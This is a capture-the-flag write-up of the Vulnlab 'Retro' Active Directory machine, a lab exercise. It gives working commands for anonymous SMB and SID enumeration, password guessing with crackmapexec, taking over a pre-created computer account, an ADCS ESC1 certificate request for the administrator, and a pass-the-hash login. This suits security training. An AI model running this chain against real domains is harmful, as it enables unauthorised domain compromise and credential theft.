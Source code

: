 # Vulnlab - Retro

## NMAP

```bash
PORT      STATE SERVICE    VERSION          
53/tcp    open  tcpwrapped
88/tcp open  kerberos-sec Microsoft Windows Kerberos
135/tcp   open  tcpwrapped                      
139/tcp   open  tcpwrapped                           
445/tcp   open  tcpwrapped
593/tcp   open  tcpwrapped      
636/tcp   open  tcpwrapped
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Issuer: commonName=retro-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-23T21:06:31
| Not valid after:  2024-07-22T21:06:31
| MD5:   c1f0bac716e071c2bcb943273d569612
|_SHA-1: 7f37ea6965982430f9180a65bcadde76add6fea6
3389/tcp  open  tcpwrapped
| ssl-cert: Subject: commonName=DC.retro.vl
| Issuer: commonName=DC.retro.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-25T09:53:42
| Not valid after:  2024-01-24T09:53:42
| MD5:   89ccbcee0485b170bbd1ebee3de93784
|_SHA-1: 2bfca683288bc59e2d2f9ffe01775d871c8c272d
9389/tcp  open  tcpwrapped
49664/tcp open  tcpwrapped
49672/tcp open  tcpwrapped
49683/tcp open  tcpwrapped
49708/tcp open  tcpwrapped
```

On Enumerating SMB with null authentication we can find few shares

<img src="https://i.imgur.com/hsCNCzc.png"/>

From the `Trainees` share, we'll get `Important.txt` which talks about having weak passwords on the trainees account and also mentions about bundling all of their account into one general `trainee` account

<img src="https://i.imgur.com/KSVl5Ad.png"/>

So verifying if the account is trainee through `kebrute`

```bash
kerbrute userenum --dc 10.10.108.245 -d retro.vl user.txt
```

<img src="https://i.imgur.com/qc50pOw.png"/>

We could have figured this out without guessing as well through lookupsid.py from impacket with anonymous user

```bash
lookupsid.py anonymous@10.10.99.152 -no-pass
```

<img src="https://i.imgur.com/OpoCNLA.png"/>

Since this account has a weak password, we can try common things like password being trainee, verifying it through `crackmapexec`

```bash
cme smb 10.10.99.152 -u 'trainee' -p 'trainee' --shares
```

<img src="https://i.imgur.com/652HK94.png"/>

We can now access `Notes` share and find a ToDo.txt file which talks about pre-created computer accounts 

<img src="https://i.imgur.com/mEc0UR2.png"/>

<img src="https://i.imgur.com/ZRsMc7m.png"/>
https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/

If we go back to the output of lookupsid, we'll see a computer account `BANKING$`

<img src="https://i.imgur.com/vZMirvK.png"/>
The password for this account is the same as the name, on trying to login, it will show `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`

<img src="https://i.imgur.com/EQuQGaE.png"/>

In order to use this account, we need to change the password and this can be done through `kpasswd` which requires `/etc/krb.conf` to be modified

<img src="https://i.imgur.com/XVq9dTs.png"/>

```
kpasswd BANKING$
```

<img src="https://i.imgur.com/XzyJKT4.png"/>

This can be verified again with cme that the password has been changed

<img src="https://i.imgur.com/4WqhYDX.png"/>

Enumerating ADCS with `certipy` , we see that authenticated users have enrollment rights but there isn't any template which be used with trainee user

<img src="https://i.imgur.com/Dn2l9l4.png"/>

However checking the BANKING$ account, there's a template `RetroClients` on which domain computer have enrollment rights which can allow the machine accounts to enroll certificate on behalf of other users leading to ESC1 attack 

```bash
certipy find -u 'BANKING$' -p 'Pass' -dc-ip 10.10.99.152 -stdout -vulnerable
```

<img src="https://i.imgur.com/4N8TaGP.png"/>

On requesting administrator's certificate, it's going to show an error that it doesn't meet the minimum key size which by default certipy sends with 2048 length

<img src="https://i.imgur.com/iVIZR00.png"/>

Specifying the key size to be of 4096 will resolve this issue

```bash
certipy req -u 'banking$'@retro.vl -p 'P@ss12345' -c 'retro-DC-CA' -target 'dc.retro.vl' -template 'RetroClients' -upn 'administrator' -key-size 4096 
```

<img src="https://i.imgur.com/Z8njyv9.png"/>

With this certificate, administrator's hash can be retrieved

```bash
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'retro.vl' -dc-ip 10.10.99.152
```

<img src="https://i.imgur.com/uOMiJ0s.png"/>

Through `evil-winrm` we can login on WinRM using the NThash of administrator 

<img src="https://i.imgur.com/eDwld0C.png"/>

## References 

- https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/
